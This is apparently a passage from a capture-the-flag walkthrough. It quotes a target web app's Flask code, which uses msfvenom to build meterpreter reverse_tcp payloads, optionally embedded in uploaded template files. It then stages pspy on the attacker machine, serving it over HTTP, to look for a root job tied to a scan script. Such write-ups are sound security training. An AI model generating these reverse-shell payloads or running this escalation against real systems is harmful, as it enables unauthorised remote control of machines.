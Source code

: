 ```python
            template_file = tempfile.NamedTemporaryFile('wb', suffix='.'+template_ext)
            file.save(template_file.name)
    else:
        template_name = "None"

    if errors:
        return render_template('index.html', payloaderror='<br/>\n'.join(errors))

    payload = f'{tar_os}/meterpreter/reverse_tcp'
    outfilename = md5(request.remote_addr.encode()).hexdigest()[:12] + '.' + OS_2_EXT[tar_os]
    outfilepath = os.path.join(app.root_path, 'static', 'payloads', outfilename)

    try:
        if file:
            print(f'msfvenom -x {template_file.name} -p {payload} LHOST={lhost} LPORT=4444')
            result = subprocess.check_output(['msfvenom', '-x', template_file.name, '-p',
                payload, f'LHOST={lhost}', 'LPORT=4444',
                '-o', outfilepath])
            template_file.close()
        else:
            result = subprocess.check_output(['msfvenom', '-p', payload,
                f'LHOST={lhost}', 'LPORT=4444', '-o', outfilepath])
    except subprocess.CalledProcessError:
        return render_template('index.html', payloaderror="Something went wrong")

    return render_template('index.html', payload=payload, lhost=lhost,
            lport=4444, template=template_name, fn=outfilename)

if __name__ == '__main__':
    app.run(host='0.0.0.0')
```

So normally `/home/pwn/scanlosers.sh` will scan us back.

The logs file should contains lines like this one:

```
2021-02-08 19:54:33.513581 1.1.1.1
```

And when we try to "hack" searchploit, it voids the file instead of appending a
new line.

There is `/usr/sbin/incrond` running so there is maybe a root job starting
`/home/pwn/scanlosers.sh` or something similar.

Let's upload and launch pspy to confirm that.

On our machine:

```plaintext
$ wget https://github.com/DominicBreuker/pspy/releases/download/v1.2.0/pspy64
$ ruby -run -ehttpd . -p8080
```
